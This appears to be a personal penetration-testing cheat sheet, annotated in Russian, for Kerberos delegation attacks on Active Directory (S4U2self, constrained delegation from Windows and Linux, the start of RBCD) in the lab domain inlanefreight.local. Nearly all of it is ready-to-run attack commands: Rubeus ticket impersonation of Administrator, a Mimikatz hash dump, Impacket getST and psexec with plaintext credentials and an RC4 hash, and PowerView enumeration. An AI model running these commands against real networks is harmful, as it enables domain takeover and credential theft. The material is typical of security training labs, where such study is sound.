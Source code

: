   		-------------------S4U2self для не-контроллеров домена-----------

  		.\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.inlanefreight.local /ptt /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCB<SNIP>

     		ls \\dc01.inlanefreight.local\c$

* Переделать kirbi --> ccache
		(может иногда понадобится renew)
  		echo "doIF7....jCCB==" > ticket.base64
		base64 -d ticket.base64 > ticket.kirbi
		ticketConverter.py ticket.kirbi ticket.ccache
  		export KRB5CCNAME=$(pwd)/ticket.ccache
  		klist
  
* Constrained Delegation from Windows (  Constrained w/ Protocol Transition)

		Set-ExecutionPolicy Unrestricted
  		Import-Module .\PowerView.ps1
		Get-DomainComputer -TrustedToAuth		(перечисление служб для делегирования)

  		на хосте, где настроено делегирование
		.\mimikatz.exe privilege::debug sekurlsa::msv exit 	(получение хеша ПК)
		(ПОЛУЧЕНИЕ TGS ДЛЯ ПОЛЬЗОВАТЕЛЯ ADMINISTRATOR ЧЕРЕЗ S4USELF)
  		.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.inlanefreight.local /altservice:HTTP /user:DMZ01$ /rc4:ff955e93a130f5bb1a6565f32b7dc127 /ptt 
  		klist
  		Enter-PSSession ws01.inlanefreight.local  (evil-winrm from windiws)
  
* Constrained Delegation from Linux (  Constrained w/ Protocol Transition)

  		findDelegation.py INLANEFREIGHT.LOCAL/carole.rose:jasmine
  		getST.py -spn TERMSRV/DC01 'INLANEFREIGHT.LOCAL/beth.richards:B3thR!ch@rd$' -impersonate Administrator   (создать действительный TGS от произвольного пользователя для доступа к TERMSRV)
		export KRB5CCNAME=./Administrator.ccache
		psexec.py -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01 -debug


  
* RBCD
* (ИЗ ВИНД0ВС)
		https://github.com/tothi/rbcd-attack
*** Поиск RBCD

  		# import the PowerView module
		Import-Module C:\Tools\PowerView.ps1

		# get all computers in the domain
		$computers = Get-DomainComputer

		# get all users in the domain
		$users = Get-DomainUser
